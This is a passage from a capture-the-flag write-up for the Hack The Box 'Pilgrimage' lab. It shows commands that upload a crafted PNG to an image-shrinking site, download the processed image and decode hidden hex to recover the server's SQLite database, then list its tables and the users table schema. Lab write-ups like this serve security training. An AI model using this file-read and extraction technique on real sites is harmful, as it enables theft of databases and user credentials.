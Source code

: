 ```sh
❯ curl -s -i "http://pilgrimage.htb/" -X "POST" -F "toConvert=@/workspace/pngout.png" | grep -oP "(?<=message=)[^&]+"
```

```
http://pilgrimage.htb/shrunk/65f75d64c3f73.png
```

Then, let's download the processed image.

```sh
❯ wget "http://pilgrimage.htb/shrunk/65f75d64c3f73.png" -O "/workspace/processed.png"
```

Finally, let's extract the content of the SQLite binary hidden inside the
processed image.

```sh
❯ identify -verbose "/workspace/processed.png" | grep -Pv "^( |Image)" | xxd -r -p > "/workspace/pilgrimage.sqlite"
```

#### Inspecting `/var/db/pilgrimage`

Now that we have extracted the SQLite database used by the website, let's
explore it.

```sh
❯ sqlite3 "/workspace/pilgrimage.sqlite"
```

```
sqlite>
```

#### Tables

Let's see which tables are available.

```sh
sqlite> .tables
```

```
images  users
```

The `images` table is probably much less interesting than `users`.

#### `users`'s columns

Let's continue our enumeration of this database by checking the content of the
`users` table.

```sh
sqlite> .schema users
```

```
CREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL);
```
